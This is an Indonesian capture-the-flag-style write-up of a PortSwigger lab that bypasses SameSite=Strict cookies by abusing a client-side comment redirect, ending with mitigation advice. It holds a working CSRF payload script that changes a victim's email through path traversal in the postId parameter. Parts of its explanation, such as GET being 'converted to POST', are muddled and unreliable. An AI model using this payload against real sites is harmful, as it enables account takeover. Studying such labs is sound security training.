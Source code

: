 # SameSite Strict Bypass melalui Redirect Sisi Klien

Fungsi perubahan email pada lab ini rentan terhadap serangan CSRF. Untuk menyelesaikan lab ini, lakukan serangan CSRF yang mengubah alamat email korban. Anda harus menggunakan server exploit yang disediakan untuk meng-host serangan Anda.

Anda dapat masuk ke akun Anda sendiri menggunakan kredensial berikut: `wiener:peter`

**Hint:** Anda tidak dapat mendaftarkan alamat email yang sudah digunakan oleh pengguna lain. Jika Anda mengubah alamat email Anda sendiri saat menguji exploit Anda, pastikan untuk menggunakan alamat email yang berbeda untuk exploit akhir yang akan Anda kirimkan kepada korban.

---------------------------------------------

**Referensi:**

- [Bypassing SameSite Restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)

![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/1.png)

---------------------------------------------

Terdapat permintaan POST untuk memperbarui email:

![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/2.png)

Memungkinkan untuk mengubah metode menjadi GET dan tetap berfungsi:

![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/3.png)

Setelah mengirim komentar ke sebuah posting blog, terdapat pengalihan ke `/post`:

![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/4.png)
![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/5.png)

Kami menemukan terdapat skrip JavaScript yang menghasilkan pengalihan ini di `/resources/js/commentConfirmationRedirect.js`:

```javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/6.png)

Ini dikontrol oleh permintaan ke `/post/comment/confirmation?postId=a`. Kami harus mengubah parameter `postId` sehingga mengarahkan ke sesuatu seperti:

```
/post/../my-account/change-email?email=test5%40test.com&submit=1
```

Jadi, kami dapat mencoba sesuatu seperti ini:

```
/post/comment/confirmation?postId=../my-account/change-email?email=test7%40test.com&submit=1
```

Permintaan ini diarahkan dengan benar tetapi parameter `submit` tidak dikirim:

![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/7.png)

Jadi, kami dapat mencoba mengganti `&` dengan `%26`, versi URL-encoded-nya:

```
/post/comment/confirmation?postId=../my-account/change-email?email=test7%40test.com%26submit=1
```

Kali ini berhasil:

![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/8.png)

Payload:

```html
<script>
    document.location = 'https://0a2900a103d6f68b83782d1900340012.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test777%40test.com%26submit=1';
</script>
```

## Penjelasan

### Apa Itu CSRF?

Cross-Site Request Forgery (CSRF) adalah jenis serangan yang memaksa pengguna akhir untuk menjalankan tindakan yang tidak diinginkan di aplikasi web di mana mereka sedang terautentikasi. Serangan ini mengeksploitasi kepercayaan yang dimiliki situs terhadap browser pengguna.

### Apa Itu SameSite dan Bagaimana Pengaruhnya?

SameSite adalah atribut pada cookie yang mengontrol apakah cookie tersebut akan dikirim bersama dengan permintaan lintas situs (cross-site). Ada tiga opsi utama:

1. **Strict:** Cookie hanya dikirim jika permintaan berasal dari situs yang sama.
2. **Lax:** Cookie dikirim dengan permintaan GET lintas situs, seperti saat pengguna mengklik tautan.
3. **None:** Cookie dikirim dengan semua jenis permintaan lintas situs, tetapi harus aman (secure).

Dalam kasus ini, Chrome menggunakan pembatasan **SameSite Strict** secara default, yang berarti cookie hanya dikirim jika permintaan berasal dari situs yang sama, sehingga mencegah pengiriman cookie pada permintaan lintas situs apapun.

### Bagaimana Bypass SameSite Strict Melalui Redirect Sisi Klien Bekerja?

Meskipun SameSite Strict mencegah pengiriman cookie pada permintaan lintas situs, teknik **client-side redirect** memungkinkan penyerang untuk memanfaatkan kerentanan dalam logika pengalihan aplikasi untuk mengeksekusi permintaan yang diinginkan.

Dalam contoh ini:

1. **Pengaturan Awal:** Pengguna terautentikasi di situs target, dan cookie dengan atribut `SameSite=Strict` disimpan di browser.
2. **Pengiriman Komentar:** Setelah mengirim komentar, aplikasi mengarahkan pengguna ke URL `/post` melalui skrip JavaScript.
3. **Manipulasi Redirect:** Penyerang memanfaatkan parameter `postId` untuk melakukan path traversal dan mengarahkan ulang ke endpoint `/my-account/change-email` dengan parameter email yang diinginkan.
4. **Penggunaan URL-Encoding:** Dengan mengganti `&` menjadi `%26`, penyerang memastikan bahwa semua parameter dikirim dalam satu permintaan GET yang diubah menjadi POST melalui metode override atau logika aplikasi lainnya.
5. **Eksekusi Permintaan:** Browser mengirimkan permintaan yang memuat perubahan email karena cookie `SameSite=Strict` tetap disertakan dalam permintaan redirect yang dikendalikan oleh skrip penyerang.

### Langkah-Langkah Serangan

1. **Menyiapkan Halaman Exploit:** Penyerang membuat halaman HTML yang berisi skrip yang mengarahkan browser korban untuk mengirim permintaan GET yang disamarkan sebagai POST dengan menggunakan path traversal dan parameter yang dimanipulasi.
   
2. **Manipulasi Parameter `postId`:** Dengan mengubah parameter `postId` menjadi path traversal yang mengarah ke endpoint perubahan email, penyerang dapat mengarahkan ulang pengguna ke permintaan yang mengubah alamat email mereka.
   
3. **Menggunakan URL-Encoding:** Mengganti karakter `&` dengan `%26` memastikan bahwa semua parameter dikirim dalam satu permintaan GET yang diubah menjadi POST, sehingga cookie `SameSite=Strict` tetap disertakan.
   
4. **Mengirimkan Permintaan:** Ketika korban mengunjungi halaman exploit, skrip secara otomatis mengarahkan browser untuk mengirimkan permintaan yang mengubah alamat email mereka.
   
5. **Mengubah Email Korban:** Karena metode permintaan telah dimanipulasi dan cookie disertakan, aplikasi web memproses permintaan tersebut sebagai permintaan yang sah untuk mengubah email korban.

### Mengapa Kerentanan Ini Terjadi?

Kerentanan ini terjadi karena:

- **Validasi Parameter yang Lemah:** Aplikasi tidak memvalidasi dengan benar parameter `postId`, memungkinkan penyerang untuk melakukan path traversal dan mengarahkan ulang ke endpoint yang sensitif.
  
- **Implementasi Redirect yang Tidak Aman:** Penggunaan redirect sisi klien tanpa memastikan bahwa parameter yang diterima tidak dapat dimanipulasi untuk mengarahkan ulang ke endpoint yang tidak diinginkan.
  
- **Kurangnya Perlindungan Tambahan pada Endpoint Sensitif:** Endpoint `/my-account/change-email` tidak memiliki mekanisme perlindungan tambahan yang memverifikasi asal permintaan atau token CSRF yang kuat, sehingga memungkinkan serangan ini berhasil meskipun atribut `SameSite=Strict` diterapkan.

## Kesimpulan

Untuk mencegah kerentanan CSRF seperti ini, penting untuk:

- **Memvalidasi dan Menyaring Parameter dengan Ketat:** Pastikan bahwa parameter yang diterima oleh endpoint pengalihan atau perubahan data tidak dapat dimanipulasi untuk path traversal atau mengakses endpoint sensitif.
  
- **Menerapkan Token CSRF yang Kuat:** Selain atribut `SameSite`, gunakan token CSRF yang unik dan diverifikasi dengan benar pada setiap permintaan yang sensitif.
  
- **Menghindari Redirect Sisi Klien yang Tidak Aman:** Pastikan bahwa logika pengalihan aplikasi tidak memungkinkan penyerang untuk mengarahkan ulang pengguna ke endpoint yang tidak diinginkan.
  
- **Menggunakan Atribut Secure dan HttpOnly pada Cookie:** Ini membantu mencegah akses tidak sah ke cookie dari sisi klien dan mengurangi risiko serangan XSS yang dapat mencuri token CSRF.
  
- **Mengimplementasikan Pembatasan Akses yang Lebih Ketat pada Endpoint Sensitif:** Pastikan bahwa endpoint seperti perubahan email hanya dapat diakses melalui metode HTTP yang diizinkan dan memverifikasi asal permintaan dengan benar.

Dengan menerapkan langkah-langkah ini, aplikasi web dapat lebih efektif dalam melindungi diri dari serangan CSRF dan memastikan bahwa tindakan sensitif hanya dapat dilakukan oleh pengguna yang sah.
